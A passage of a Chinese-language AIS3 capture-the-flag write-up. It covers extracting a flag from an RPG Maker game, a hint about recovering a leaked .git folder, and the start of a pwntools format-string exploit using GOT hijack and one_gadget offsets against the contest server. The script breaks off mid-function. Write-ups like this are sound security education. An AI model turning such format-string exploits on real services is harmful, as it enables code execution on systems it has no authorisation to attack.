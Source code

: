     由於作者在開發時使用了有中文名稱的 bgm 檔案，如果跳出`沒有發現檔案 Audio/BGM/巨人`的錯誤訊息，~~恭喜你，作者排擠使用非 Big5 碼的族群~~，想辦法轉區吧 (´・ω・`)

首先，到網路上找到神奇的 rgss decrypter，把所有東西全部解出來

![rgss decrypter](https://i.imgur.com/GKo6vmp.png)

接著到官網下載 RPG Maker XP 開發工具，它可以順便裝好 RTP
開一個新 project 把所有東西丟進去 (或是在 rgss decrypter 點 `Generate Game.rxproj`)，
在 end 的場景左上角會發現一個被框起來的格子 (event)
打開之後就會發現這一行：

![Flaaaaaag!!](https://i.imgur.com/MMgm444.png)

如果把它塞進初始化的 event 裡，遊戲一開始就會跳出 flag 給你看了 OωO

----
### Hat/300
> Every hacker has his/her own hat! Try to customize one for yourself!
> 
> [http://srv03.ctf.ais3.org:9001/](https://drive.google.com/file/d/1P9dRCXg0Ecc9ndyaNIelYF_mwnbCzVyw)

![](https://i.imgur.com/kUsr8WU.png)

聽說找到 `.git` 的資料夾可以還原兩個檔案

---
## pwn
### Baby format/100
> Nothing in the world cannot be solved by a single printf. If there was, try to work with two printf's!
> hint: printf has buffer, and you will only see the output after the buffer is full.
> hint2: maybe try GOT Hijack and return to main
> 
> [http://ctf.ais3.org/files/pwn1_fmt.7z](https://drive.google.com/file/d/1PDaW1fH8j7i0dFUWcFp1Ze2sz4_B6gAI)
> 
> service is on srv01.ctf.ais3.org:5521

```python
import sys
from pwn import *

host = 'srv01.ctf.ais3.org'
port = 5521

if len(sys.argv) > 1:
    r = remote(host, port)
else:
    r = process('./fmt')

main = 0x400646
start_main_offset = 0x21ab0 + 0xe7
one_gadget = 0x10a38c
puts = 0x601018


def get_fmt_payload(value, target):
    global num
    num = num % 256
    if value == num:
        return ''
    elif value > num:
        payload = '%' + str(value-num) + 'c' + target
```